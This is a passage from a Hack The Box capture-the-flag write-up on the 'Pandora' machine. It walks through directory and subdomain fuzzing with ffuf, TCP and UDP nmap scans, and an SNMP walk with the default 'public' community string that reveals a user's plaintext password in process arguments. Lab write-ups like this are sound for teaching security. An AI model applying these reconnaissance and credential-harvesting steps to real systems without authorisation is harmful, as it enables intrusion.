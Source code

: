 There is a contact function, but all it does is send a GET request with HTTP parameters to the home page:

![image.png]({{ site.baseurl }}/assets/pandora/image%201.png)

Let’s start fuzzing. Let’s also fuzz for .php files since it’s using apache:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://Panda.HTB/FUZZ -ic -e .php

assets
```

Nothing. Let’s see if there are any subdomains:

```bash
ffuf -u http://10.10.11.136 -H "Host: FUZZ.Panda.HTB" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fs 33560
```

Nothing. Let’s do another port scan:

```bash
sudo nmap -p- 10.10.11.136 -v --min-rate=10000
```

Nothing. 

## UDP scan and SNMPwalk

Let’s check UDP now:

```bash
sudo nmap -sU 10.10.11.136 -sC -sV -oN nmap/pandora_UDP

161/udp open   snmp     SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-netstat:
|   TCP  0.0.0.0:22           0.0.0.0:0
|   TCP  10.10.11.136:57286   1.1.1.1:53
|   TCP  127.0.0.1:3306       0.0.0.0:0
|   TCP  127.0.0.53:53        0.0.0.0:0
|   UDP  0.0.0.0:161          *:*
|_  UDP  127.0.0.53:53        *:*
<SNIP>
```

Seems like there’s SNMP running on the server with the community string public. Let’s use snmpwalk to uncover more information:

```bash
snmpwalk -v1 -c public 10.10.11.136 

iso.3.6.1.2.1.1.1.0 = STRING: "Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64"                              iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10       
iso.3.6.1.2.1.1.4.0 = STRING: "Daniel"                                                                                                         
iso.3.6.1.2.1.1.5.0 = STRING: "pandora"                                                                                                        
iso.3.6.1.2.1.1.6.0 = STRING: "Mississippi"                                                                                                    
iso.3.6.1.2.1.1.7.0 = INTEGER: 72        

iso.3.6.1.2.1.25.4.2.1.5.1102 = STRING: "-u daniel -p HotelBabylon23" 

iso.3.6.1.2.1.25.4.2.1.5.696 = STRING: "--system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only"                   
```